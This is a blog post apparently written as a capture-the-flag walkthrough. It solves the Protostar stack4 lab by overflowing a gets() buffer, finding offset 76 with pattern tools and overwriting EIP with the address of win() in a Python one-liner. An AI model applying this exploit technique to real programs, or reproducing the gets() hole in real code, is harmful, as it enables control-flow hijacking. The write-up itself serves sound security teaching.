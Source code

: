 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4
categories: binary-exploitation
image: binary-exploitation/BOF4/0.png
---
```


<hr>
##### note : This article is small because I didn't want to solve stack 4 with stack 5 as stack 5 is different so I just wrote about stack 4 quickly
<br>
### Introduction
#### Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
#### Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
### ./stack4
#### Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
#### The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
#### The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
#### The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
#### We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
#### Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
#### It crashes at `0x63413563`
#### We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
#### We get exact match at offset 76
#### Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
#### The address is `0x080483f4`
#### Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
#### And we successfully changed the code flow !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , metasploit , gdb and objdump ! - protostar stack3 ](/binary-exploitation/bof3/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5](/binary-exploitation/bof5/)
<hr>
